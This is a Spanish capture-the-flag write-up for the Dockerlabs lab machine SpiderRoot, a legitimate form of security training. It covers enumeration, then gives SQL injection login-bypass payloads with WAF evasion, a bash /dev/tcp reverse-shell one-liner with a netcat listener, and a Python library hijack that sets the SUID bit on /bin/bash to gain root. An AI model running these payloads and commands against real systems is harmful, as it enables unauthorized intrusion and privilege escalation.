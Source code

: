 # 🖥️ Write-Up: [SpiderRoot](https://dockerlabs.es)

## 📌 Información General
    - Nombre de la máquina: SpiderRoot
    - Plataforma: Dockerlabs
    - Dificultad: Medio
    - Creador: Grooti
    - OS: Linux
---

## 🔍 Enumeración

La máquina SpiderRoot posee la IP 172.17.0.2.

## Descubrimiento de Puertos

Realizamos un reconocimiento de todos los puertos de la máquina y nos quedamos únicamente con aquellos que están abiertos. Para ello, vamos a recurrir a la herramienta **nmap**.

![allPorts](screenshots/allPorts.png)

La máquina tiene abiertos los puertos 22 y 80, por lo tanto, vamos a proceder a realizar un escaneo de los servicios y versiones de ellos.

![target](screenshots/target.png)

Como no disponemos de credenciales y esa versión de OpenSSH del puerto 22 no es vulnerable, vamos a analizar el puerto 80.

#### Puerto 80

Accemos a él a través del navegador y nos encontramos la siguiente página:

![home](screenshots/home.png)

Revisando las páginas de su menú de navegación, vemos:

    - heroes: información de posibles usuarios.
    - multiverso: panel de login.
    - contacto: información de contacto y una pista.

La pista del apartado de contacto:

"Cada realidad tiene secretos ocultos. Explora con cuidado y recuerda: un gran poder conlleva una gran responsabilidad.  
Tip: Algunos archivos del sistema pueden revelar más sobre el multiverso..."

Esto nos sugiere revisar el código fuente de los tres subdirectorios. Tras realizarlo, en el multiverso encontramos lo siguiente:

![hint](screenshots/hint.png)

Nos indica que para evadir el Web Application Firewall (WAF) debemos de usar AND, OR o comentarios de manera codificada.

## 🔥Explotación

Antes de intentar evadir el WAF, vamos a probar el panel de login con las típicas credenciales de usuario 'admin' y contraseña 'admin'.

![invalid_credentials](screenshots/invalid_credentials.png)

Observamos que las credenciales son incorrectas, por lo que intentamos realizar una simple SQl injection, introduciendo `'or 1=1-- -` en el campo del usuario y una contraseña cualquiera, para ver el comportamiento de la página.


![waf](screenshots/waf.png)

Como vemos, el mensaje es direntente al de credenciales incorrectas, esto nos indica que hemos conseguido entrar en el panel pero no hemos evadido el WAF. Así que ahora toca evadirlo.

Tras varias pruebas, conseguimos pasar el WAF introduciendo en el usuario `or 1=1 /` y una contraseña cualquiera. Y obtenemos:

![database](screenshots/database.png)

## 🚪Acceso a la máquina

Ahora que tenemos usuarios y credenciales vamos a utilizarlos para conectarnos por ssh a la máquina.

![peter_ssh](screenshots/peter_ssh.png)

Nos conectamos como peter y en su directorio encontramos una nota:
"Hay un enemigo más internamente en esta máquina... Hay que derrotarlo"

Revisamos permisos SUID, sudoers, capabilities, tareas que se ejecuten periódicamante y no encontramos nada en ellas. Pero, encontramos un archivo intersesante en /opt, llamado spidy.py.

![script](screenshots/script.png)


## 🧗Escalada de Privilegios

### www-data

Recordando la nota del directiro de peter, probamos a mirar los puertos que están abiertos localmente.
![internal_port](screenshots/internal_port.png)

Encontramos que de forma local hay algún servicio ejecutándose en el puerto **8080**, como disponemos de credenciales para conectarnos por ssh, vamos utilizar ssh para aplicar port forwarding y llevar ese servicio del puerto 8080 a nuestra máquina.

```bash
ssh -L 8080:127.0.0.1:8080 peter@172.17.0.2
```

Tras introducir las credenciales de peter, el servicio del puerto 8080 que corre de forma local en la máquina pasará a nuestra localhost en el puerto 8080. Así que si accedemos a nuestro localhost por ese puerto utilizando el navegador.

![internal_8080](screenshots/internal_8080.png)

Vemos un portal en el que al parecer podemos ejecutar comandos. Probamos a introducir un **whoami** y obtenemos como salida **www-data**, por lo tanto vamos a introducir una reverse shell.
```bash
bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'
```

Antes de ejecutarla, nos ponemos en escucha con **netcat** en el puerto 443.
```bash
nc -nlvp 443
```

La ejecutamos y recibimos la conexión.

![nc](screenshots/nc.png)

Ahora procedemos a realizar el tratamiento de la TTY.

![tty](screenshots/tty.png)

![tty2](screenshots/tty2.png)

### Root

Ahora somos el usuario **www-data**, así que vamos a comprobar sus permisos sudoers con `sudo -l`.

Y observamos que puede ejecutar como cualquier usuario sin proporcionar contraseña el archivo que habíamos encontrado en **/opt**.

```bash
(ALL) NOPASSWD: /usr/bin/python3 /opt/spidy.py
```

Como hemos visto anteriormente, ese script utilizaba las librerías de os, sys, json y math. Además, disponemos de permisos de escritura en el directorio **/opt**. Así que solo nos queda comprobar el path de python para ver si podemos ejecutar un Python Library Hijacking.

![path_python](screenshots/path_python.png)

Vemos que la primera ruta en la que python busca las librerías es el mismo directorio en el que se situa el archivo, por lo tanto, podemos ejecutar un Python Library Hijacking. 

Para ello, vamos a crear en el directirio **/opt** un archivo llamado **json.py** con el siguiente código en su interior, para darle a la bash permisos SUID.

```python
import os; os.system("chmod u+s /bin/bash")
```
Le damos permisos de ejecución al archivo creado.
```bash
chmod +x json.py
```

De esta forma, al ejecutar spidy.py como root nos dará permisos SUID a la bash.

```bash
sudo /usr/bin/python3 /opt/spidy.py
```

Nos da un error referente al json.py, pero no nos afecta. Ahora comprobamos la bash y efectivamente, ha funcionado.

![suid_bash](screenshots/suid_bash.png)

Por último, nos lanzamos una bash con privilegios.
```bash
/bin/bash -p
```

Y listo, somos root.

![root](screenshots/root.png)